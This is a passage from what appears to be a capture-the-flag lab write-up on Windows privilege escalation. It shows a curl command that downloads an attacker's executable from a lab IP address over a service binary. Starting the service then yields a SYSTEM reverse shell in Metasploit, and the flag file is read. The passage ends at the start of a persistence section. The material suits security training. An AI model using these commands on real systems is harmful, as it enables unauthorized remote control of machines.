 
Now, downloading our service executable to `C:\Program Files (x86)\Mobile Mouse\Mouse.exe` and starting the service.

```
C:\Windows\system32>curl http://10.11.72.22/shell-svc.exe -o "C:\Program Files (x86)\Mobile Mouse\Mouse.exe"

C:\Windows\system32>sc start "Mobile Mouse Service"

SERVICE_NAME: Mobile Mouse Service
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 4504
        FLAGS              :

C:\Windows\system32>

[*] Command shell session 2 opened (10.11.72.22:443 -> 10.10.154.124:49872)
```
{: .wrap }

The moment the service starts, our executable is run, and we get a shell as `SYSTEM`. We can then read the second flag at `C:\Users\Administrator\Desktop\root.txt`.

```
C:\Windows\system32>^Z  # Control + Z
Background session 1? [y/N]  y
msf6 exploit(multi/handler) > sessions -i 2
[*] Starting interaction with 2...


Shell Banner:
Microsoft Windows [Version 10.0.17763.1821]
-----


C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
THM{[REDACTED]}
```

### Establishing Persistence

While we have a shell as `SYSTEM`, the task is not over yet, as it instructs us to establish basic persistence using two different methods.
